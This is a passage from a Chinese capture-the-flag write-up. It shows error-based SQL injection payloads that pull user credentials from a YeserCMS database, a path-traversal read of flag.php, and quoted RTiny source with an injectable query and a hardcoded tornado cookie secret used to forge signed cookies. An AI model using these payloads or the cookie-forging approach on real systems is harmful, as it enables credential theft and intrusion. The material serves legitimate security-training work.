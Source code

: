 ```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select group_concat(column_name) from information_schema.columns where table_name='yesercms_user'),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```
这里也会有许多列，我们需要的是 `username` 和 `password`。

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select concat(username,password) from yesercms_user),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```
这里的 password 显示不全，同样修改 `1,32` 的 `1` 来查看完整的 MD5 值：`ff512d4240cbbdeafada404677ccbe61`。解密得到密码：`Yeser231`。登录并进入后台管理页面。

管理页面内容很多，但是都没有什么注入点。最终，在 ` 模板 `->` 当前模板编辑 ` 中发现，编辑模板时会先读取相应的文件。因此我们任选一个文件，点击 ` 编辑 ` 并抓包，将唯一的参数 `id` 修改为想读取的文件。经测试，这里应该是 `../../flag.php`。

## XSS 平台
尝试注入无果，构造非法参数 `pass=bbb&email[]=aaa` 得到报错信息，其中有一行：
```
File "/var/www/html/rtiny/login.py", line 20, in post
```
结合题目名，得知这是使用 RTiny 编写的 XSS 平台，项目地址在 [这里](https://github.com/r0ker/Rtiny-xss)。其中，`rtiny/lock.py` 存在 SQL 注入漏洞，`post` 方法中对 `username` 没有任何过滤：

```py
#!/usr/bin/env python
# -*- coding:utf-8 -*-

__author__ = 'r0ker'
import tornado.web
from function import md5
import db
from config import URL


class LockHandler(tornado.web.RequestHandler):
	def get(self):
		self.set_secure_cookie("lock",'1')
		self.render("lock.html")

	def post(self):
		username = self.get_secure_cookie("username") or ''
		passwd = md5(self.get_argument('password',''))
		row = db.ct("manager", "*", "username='"+ username +"'and password='"+ passwd +"'")
		if row:
			self.set_secure_cookie("lock", "0")
			self.redirect("http://" + URL)
		else:
			self.redirect("http://" + URL + "/lock")
```
而 `set_secure_cookie` 方法来自 `tornado`，该方法使用一个 `cookie_secret` 来加密 `cookie`。我们可以在 `index.py` 中发现这个 `cookie_secret`：
```py
settings = {
	"static_path": os.path.join(os.path.dirname(__file__), "themes/static"),
	"template_path": os.path.join(os.path.dirname(__file__), "themes"),
	"cookie_secret": "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
	"login_url": "/login",
}
```
所以，我们在注入的时候，只需要将 payload 用 `cookie_secret` 加密即可。借助 `tornado` 写个脚本：
